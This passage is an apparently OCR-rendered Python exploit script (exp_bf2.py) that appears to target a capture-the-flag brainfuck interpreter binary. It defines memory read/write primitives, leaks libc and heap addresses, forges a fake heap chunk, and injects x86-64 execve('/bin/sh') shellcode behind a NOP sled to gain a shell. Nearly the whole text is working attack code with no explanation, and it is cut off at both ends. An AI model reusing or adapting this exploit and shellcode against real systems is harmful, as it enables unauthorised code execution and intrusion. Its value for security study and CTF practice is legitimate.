 ```python exp_bf2.py
        payload = ">" * abs(move)

    payload += ",>"*len(content)
    if scmd:
        payload += scmd
        content += scontent
    payload = payload.ljust(512, "B")
    
    cmd(payload)
    r.sendline(content)


def leak(move, cnt):
    if move < 0:
        payload = "<" * abs(move)
    else:
        payload = ">" * abs(move)

    payload += ".>"*cnt
    payload = payload.ljust(512, "B")
    
    cmd(payload)
    r.recv(1024) # ¯\_(ツ)_/¯ 
    ret = r.recvuntil(">>")[:-2:]
    r.unrecv(">>")
    return ret

sc = "\x6a\x68\x48\xb8\x2f\x62\x69\x6e\x2f\x2f\x2f\x73\x50\x48\x89\xe7\x31\xf6\x6a\x3b\x58\x99\x0f\x05"

if __name__ == "__main__":

    r = None
    if len(sys.argv) == 2:
        r = process(ELF_PATH)
    else:
        r = remote(HOST, PORT)
    
    # make unsortbin + libc address
    cmd("A"*512)

    # leak
    libc.address = u64(leak(0x110, 8)) - 0x3c3b78 # local
    log.success("libc base: "+hex(libc.address))
    heap_addr = u64(leak(-0x30, 8))
    log.success("heap_addr: "+hex(heap_addr))
    fake_chunk = heap_addr - 0x70
    log.success("fake_chunk: "+hex(fake_chunk))
    sc_buf = heap_addr + 0x3b0# our shellcode buffer
    log.success("sc_buf: "+hex(sc_buf))

    # fake chunk
    write(-0x78, p64(0x111) )
    special = "<"*0xd0 + ",>"*8
    # fake next size
    write(0x98, p64(0x71),special, p64(fake_chunk))
    # create gets-like function, puts shellcode @ 0xXXXXX000 ( our shellcode buffer)
    cmd(",[>.,]>>>>>>>>>,[>.,]")
    payload = "i"*0x108 + "\xa1\x01\x02\x00" # fake next size
    payload += "i"*0x190
    payload += "\x90"*0x10 + sc + "\x00"
    r.send(payload)
    # overwrite bf_data, make bf_data->sc_buf point to our shellcode buffer
```